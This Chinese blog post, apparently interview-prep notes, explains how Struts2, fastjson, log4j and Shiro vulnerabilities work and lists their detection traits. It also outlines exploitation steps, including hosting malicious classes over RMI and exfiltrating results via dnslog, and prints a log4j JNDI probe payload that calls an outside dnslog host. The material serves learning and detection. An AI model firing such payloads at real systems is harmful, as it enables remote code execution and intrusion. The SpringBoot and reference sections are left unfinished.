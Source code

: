 ```yaml
---
layout:     post
title:      框架漏洞
subtitle:   分析常见框架漏洞及其原理
date:       2024-8-18
author:     tahano
header-img: img/back.jpg
catalog: true
tags:
    - 漏洞原理
---
```


## 前言

最近面试被问到了`Struts2`等常用框架的问题。整理一下



## 正文

# Struts2
**原理**
默认的content-type解析器会把用户传来的数据 直接当成代码执行，造成rce
**特征**
ognl表达式，memberaccess字段。可以通过catalina日志过滤关键信息查找攻击特征
# ThinkPhp
RCE、SQL注入为主：
# fastjson反序列化漏洞原理
## 利用原理
处理json数据过程中因为应用开启了autotype，却没进行安全的过滤，造成@type用户可控并会被服务器带回执行。所以利用POST-@type将值指向我们提前搭建在vps上的恶意class文件，期间配置RMI（marshalsec 搭建一个RMI服务器，进行远程加载payload）。传入数据之后，被服务器本地加载并执行反序列化造成漏洞

使用autotype功能进行序列化的json字符会带有一个@type来标记他字符的原始类型，然后在反序列化的时候会通过读取这个@type的值来调用setter或者是getter的方法来把json反序列化到对象。他这个漏洞就是@type的值可以被恶意构造，我们再构造一个合理的json，就能用@type指定一个攻击类库，从而实现攻击。
### 黑盒找洞
找json传输的接口测试回显，信息搜集指纹识别等、可以根据logo图标判断是否使用了fastjson或者改POST花括号不闭合看回显
#### 报错识别
burp修改为post请求   MIME改为json传输 
报错请求返回，会出现alibaba.fastjson，表示为：fastjson框架
### 不出网
直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过访问本地文件查看结果。通过dnslog外带（前提能执行dns请求）直接将结果回显到请求Poc的HTTP响应包中
## 特征
发送json数据会有datesourcename字段，且一般会有@type
# log4j漏洞原理

该漏洞主要是当日志在打印时遇到符号${就会以：为分割，前面的内容当作profix，后面的内容当作key。然后根据profix去寻找对应的lookup，再根据lookup实例调用
lookup方法，最后将key作为参数带入执行，从而引发代码执行漏洞。

# log4j2
## 漏洞原理
rmi和jndi这种服务，远程获取了恶意的class，解析之后造成rce
使用了lookup接口，通过JNDI注入触发日志，且调用jndi/rmi服务，远程获取了恶意的class，
同时java在加载class的时候，进行了反序列化，把 class还原成java，在反序列化中会触发你比如 (恶意class文件还原java后的代码中的）static里的代码Runtime.getRuntime().exec()这种代码，从而造成RCE
### 流量特征
通过全流量设备进行流量回查，同时匹配流量及日志中所有存在
```
jndi:ldap://               jndi:rmi
```
等字符的特征。
（工具可能触发）看DNS记录，设备上是否有dns外带检测告警
## 实战检测
url编码 传输payload，dnslog平台查看即可
```
${jndi:ldap://p8qnbn.dnslog.cn} 
```


# java之shiro漏洞原理 
因为通过rememberme来实现cookie对用户的记住功能，而处理cookie的机制是rememberme作为入口，对数据先base64解码、然后AES解码、然后执行反序列化最后把数据传回服务器。而期间AES的密钥泄露造成用户可以进行恶意cookie重构，所有相反的顺序，通过AES的key，构造出payload，在cookie的rememberme进行注入即可执行反序列化漏洞

## 攻击特征
cookie-rememberme的值正常都比较短，而攻击时的base64值很长
有些工具利用的时候DNSLOG+URLDNS进行检测，所以可能会留下大量dns记录
判断shiro对key正确性

shiro：
查看cookie中rememberme字段，恶意命令要从这里传入。判断是否有漏洞，查看返回包的set cookie，有rememberme=deleteme就说明它漏洞验证失败了。
shiro550：
因为cookie的AES加密使用的硬编码导致密钥可以被爆破，然后利用密钥进行解密和反序列化构建payload
shiro721：
虽然没有硬解码，但是可以构建恶意的rememberme值，因为服务端收到登录请求后，会对cookie的rememberme字段的值进行base64解码，接着进行aes解密，然后反序列化。因为我们自己构造了rememberme，所以经过处理后它的字段就会异常的长，这就是它的流量特征。

二者区别：shiro550使用已知密钥，只要有足够的密钥库，就不需要remember cookie；shiro721的ase加密的key因为是系统随机生成的，基本猜不到，需要使用登录后的rememberme去爆破正确的key值。即利用有效的rememverme cookie作为padding oracle attack的前缀，然后精心构造rememberme cookie值来实现反序列化漏洞攻击，难度高


# SpringBoot
**CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, WordPress, Yii和ZendFramework**

### 参考

